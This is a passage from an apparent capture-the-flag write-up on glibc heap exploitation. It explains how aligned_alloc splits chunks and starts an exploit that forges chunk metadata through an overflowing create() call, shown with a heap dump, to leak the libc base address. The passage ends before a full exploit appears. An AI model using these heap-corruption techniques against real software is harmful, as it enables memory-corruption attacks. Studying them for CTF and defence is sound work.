 When `size` is zero, we can input data of arbitrary size.

# Understanding `aligned_alloc` to leak libcbase

`aligned_alloc` is a function to allocate memory at specified alignment. Below is a simple flow to allocate a memory:
- If `align` is smaller than `MALLOC_ALIGNMENT (==0x10 in many env)`, just call `__libc_malloc()`. Note that calling `__libc_malloc` is a little bit important later.
- If `align` is not a power of 2, round up to the next power of 2. (I think this violates POSIX standard, but no worry this is glibc)
- Calls `__int_memalign()`, where `__int_malloc()` is called for the size of `size + align`, which is the worst case of an alignment mismatche.
- Find the aligned spot in allocated chunk, and split the chunk into three. The first and the third is freed, then the second is returned.

This is a pretty simplified explanation, but it's enough to solve this chall.

# Heap Puzzle: Leak libcbase by freeing alloced fastbin

First, we allocate a chunk with alignment 0xF0 and size 0:
```py
  create(0, 0xF0, 0, b"A"*0x10 + p64(0xF0) + p32(0x40))
```

Note that when we call `aligned_alloc` with size 0, it allocates minimum size of chunk, which is `0x20`.
Right after the allocation, heap looks as follows:
```txt
# Chunk A (fastbin, last_remainder)
0x5581b77ee000: 0x0000000000000000      0x00000000000000f1
0x5581b77ee010: 0x00007f1773219ce0      0x00007f1773219ce0
0x5581b77ee020: 0x0000000000000000      0x0000000000000000
0x5581b77ee030: 0x0000000000000000      0x0000000000000000
0x5581b77ee040: 0x0000000000000000      0x0000000000000000
0x5581b77ee050: 0x0000000000000000      0x0000000000000000
0x5581b77ee060: 0x0000000000000000      0x0000000000000000
0x5581b77ee070: 0x0000000000000000      0x0000000000000000
0x5581b77ee080: 0x0000000000000000      0x0000000000000000
0x5581b77ee090: 0x0000000000000000      0x0000000000000000
0x5581b77ee0a0: 0x0000000000000000      0x0000000000000000
0x5581b77ee0b0: 0x0000000000000000      0x0000000000000000
0x5581b77ee0c0: 0x0000000000000000      0x0000000000000000
0x5581b77ee0d0: 0x0000000000000000      0x0000000000000000
0x5581b77ee0e0: 0x0000000000000000      0x0000000000000000
# Chunk B (alloced)
0x5581b77ee0f0: 0x00000000000000f0      0x0000000000000020
0x5581b77ee100: 0x4141414141414141      0x4141414141414141
# Chunk C (fastbin)
0x5581b77ee110: 0x00000000000000f0      0x0000000000000040 # OVERWRITTEN
0x5581b77ee120: 0x00000005581b77ee      0x0000000000000000
0x5581b77ee130: 0x0000000000000000      0x0000000000000000
0x5581b77ee140: 0x0000000000000000      0x0000000000000000
# Top
0x5581b77ee150: 0x0000000000000000      0x0000000000020eb1
```
